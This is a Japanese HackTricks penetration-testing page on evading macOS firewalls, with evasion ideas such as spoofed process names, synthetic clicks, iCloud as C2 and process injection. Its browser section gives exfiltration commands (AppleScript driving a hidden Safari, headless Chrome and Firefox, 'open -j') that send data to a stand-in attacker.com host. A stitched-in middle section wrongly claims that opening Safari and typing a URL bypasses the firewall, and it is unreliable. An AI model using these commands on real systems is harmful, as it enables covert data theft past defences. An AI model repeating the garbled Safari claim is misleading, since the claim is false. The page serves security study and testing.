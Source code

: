 # macOS ファイアウォールの回避方法

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **ハッキングのトリックを共有するには、PRを** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **に提出してください。**

</details>

## 発見された技術

以下の技術は、一部のmacOSファイアウォールアプリで動作することが確認されました。

### ホワイトリスト名の悪用

* 例えば、マルウェアを**`launchd`**などのよく知られたmacOSプロセスの名前で呼び出す

### シンセティッククリック

* ファイアウォールがユーザーに許可を求める場合、マルウェアが**許可をクリック**する

### **Appleの署名済みバイナリの使用**

* **`curl`**のようなものだけでなく、**`whois`**なども含まれます

### よく知られたAppleのドメイン

ファイアウォールは、**`apple.com`**や**`icloud.com`**などのよく知られたAppleのドメインへの接続を許可している場合があります。そしてiCloudはC2として使用される可能性があります。

### 一般的なバイパス

ファイアウォールをバイパスするためのいくつかのアイデア

### 許可されたトラフィックの確認

許可されたトラフィックを知ることで、ホワイトリストに登録されている可能性のあるドメインや、それらにアクセスできるアプリケーションを特定することができます
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### DNSの悪用

DNSの解決は、おそらくDNSサーバーに接続することが許可されるであろう**`mdnsreponder`**という署名済みアプリケーションを介して行われます。

<figure><img src="../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

### ブラウザアプリを介して

* **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
* Google Chrome

{% code overflow="wrap" %}
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
{% endcode %}

* Firefox
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
# macOS ファイアウォールのバイパス

macOS には、ネットワークセキュリティを強化するための組み込みのファイアウォールがあります。しかし、ハッカーはこのファイアウォールを回避する方法を見つけることがあります。このセクションでは、macOS ファイアウォールをバイパスするためのいくつかのテクニックを紹介します。

## Safari の使用

Safari は macOS のデフォルトのウェブブラウザであり、ファイアウォールをバイパスするための有用なツールとなり得ます。Safari を使用すると、ファイアウォールの制限を回避して、ネットワーク上のリソースにアクセスすることができます。

以下に、Safari を使用してファイアウォールをバイパスする方法を示します。

1. Safari を開きます。
2. アドレスバーにアクセスしたいウェブサイトの URL を入力します。
3. Enter キーを押してウェブサイトにアクセスします。

Safari は、macOS ファイアウォールの制限を回避するために、ネットワークトラフィックを通過させることができます。これにより、ファイアウォールによってブロックされることなく、ウェブサイトやリソースにアクセスすることができます。

ただし、Safari を使用してファイアウォールをバイパスする場合でも、セキュリティには十分な注意を払う必要があります。ファイアウォールの制限を回避することは、セキュリティリスクを伴う可能性があるため、慎重に行う必要があります。

以上が、Safari を使用して macOS ファイアウォールをバイパスする方法です。
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### プロセスインジェクションを介して

もし、**任意のサーバーに接続できるプロセスにコードをインジェクション**できれば、ファイアウォールの保護を回避することができます:

{% content-ref url="macos-proces-abuse/" %}
[macos-proces-abuse](macos-proces-abuse/)
{% endcontent-ref %}

## 参考文献

* [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業で働いていますか？** HackTricksで**会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見しましょう。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **ハッキングのトリックを共有するには、PRを** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **に提出してください。**

</details>
